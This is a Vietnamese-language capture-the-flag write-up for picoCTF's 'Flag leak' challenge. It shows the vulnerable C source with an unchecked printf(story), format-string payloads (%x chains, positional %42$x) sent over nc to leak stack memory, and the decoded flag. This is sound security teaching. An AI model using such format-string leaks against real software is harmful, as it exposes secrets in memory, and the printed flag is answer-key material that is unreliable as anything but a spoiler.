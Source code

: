 ## Flag leak
# Description:
Story telling class 1/2

I'm just copying and pasting with this `program`. What can go wrong? You can view source `here`. And connect with it using:

`nc saturn.picoctf.net 64250`

# Source 
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
# Solution:
* Đầu tiên, ta biết được đây là file 32 bit
```
└─$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=17bb7adc72aff4022d6a1c451eb9adcf34df2f8c, for GNU/Linux 3.2.0, not stripped
```
* Mở source lên và thấy format string ở dòng print(story).
* Thử nhập vào chuỗi `%x%x%x%x%x` và đúng như mong đợi, chương trình đã in ra các giá trị hex trong stack.
```
└─$ nc saturn.picoctf.net 64250
Tell me a story and then I'll tell you one >> %x%x%x%x%x
Here's a story -
ffccee60ffccee8080493467825782578257825
```

* Nhập vào chuỗi 127 kí tự %x để leak hết trong flag, ta thu được dãy hex:
```
└─$ nc saturn.picoctf.net 64078
Tell me a story and then I'll tell you one >> %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Here's a story -
ffead6c0.ffead6e0.8049346.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.252e78.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.
```
* Decode dãy này thì thu được flag gần hoàn chỉnh `ocip{FTCk43L_gn1g4lFff0_4tS_` (in ở dạng hex nên sẽ bị đảo 4 byte một, săp xếp lại ta được `picoCTF{L34k1ng_Fl4g_0ff_St4`). Vấn đề ở đây là dùng story nên nó chỉ chứa được 127 kí tự, mà trong stack vẫn còn nên ta tiếp tục leak những giá trị sau
```
└─$ nc saturn.picoctf.net 64078 
Tell me a story and then I'll tell you one >> %42$x.%43$x.%44$x.%45$x.%46$x.%47$x
Here's a story -
3474535f.395f6b63.32653939.7d343238.fbad2000.e9c41d00
```
* Decode và thu được phần cuối của flag `4tS_9_kc2e99}428` => `_St4ck_eb9b46a2}`

Flag hoàn chỉnh: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_eb9b46a2}` 